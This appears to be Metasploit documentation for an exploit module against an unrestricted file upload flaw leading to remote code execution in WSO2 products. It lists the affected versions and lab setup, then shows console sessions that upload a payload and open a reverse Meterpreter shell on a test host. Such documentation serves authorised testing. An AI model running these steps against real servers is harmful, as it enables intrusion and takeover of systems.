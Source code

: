 ## Vulnerable Application

Certain WSO2 products allow unrestricted file upload with resultant remote code execution. This affects WSO2 API Manager
2.2.0 and above through 4.0.0; WSO2 Identity Server 5.2.0 and above through 5.11.0; WSO2 Identity Server Analytics
5.4.0, 5.4.1, 5.5.0, and 5.6.0; WSO2 Identity Server as Key Manager 5.3.0 and above through 5.10.0; and WSO2 Enterprise 
Integrator 6.2.0 and above through 6.6.0.

Download WSO2 API Manager [4.0.0](https://wso2.com/api-management/previous-releases/) or another
version < 4.1.0 from the same link.

Download and install [JDK 1.8](https://www.oracle.com/ca-en/java/technologies/javase/javase8u211-later-archive-downloads.html) 
and set `$JAVA_HOME` in your environment.

Start the vulnerable application with `./wso2am-4.0.0/bin/api-manager.sh`. More information on target setup can be found
[here](https://apim.docs.wso2.com/en/latest/install-and-setup/install-and-setup-overview/).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use multi/http/wso2_file_upload_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Scenarios

### WSO2 API Manager 4.0.0 on Ubuntu 20.04.1

```
msf6 > use multi/http/wso2_file_upload_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf6 exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf6 exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Waiting 10 seconds for the payload to finish deploying...
[*] Executing payload...
[+] Payload executed successfully
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:34282 ) at 2022-04-26 10:58:31 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```

### WSO2 API Manager 3.0.0 on Ubuntu 20.04.1
```
msf6 > use multi/http/wso2_file_upload_rce
msf6 exploit(multi/http/wso2_file_upload_rce) > set rhosts 172.16.199.173
rhosts => 172.16.199.173
msf6 exploit(multi/http/wso2_file_upload_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wso2_file_upload_rce) > check
[*] 172.16.199.173:9443 - The target appears to be vulnerable.
msf6 exploit(multi/http/wso2_file_upload_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Waiting 10 seconds for the payload to finish deploying...
[*] Executing payload...
[+] Payload executed successfully
[*] Sending stage (58851 bytes) to 172.16.199.173
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.173:33564 ) at 2022-04-26 12:09:18 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : ubuntu
OS              : Linux 5.13.0-40-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
```
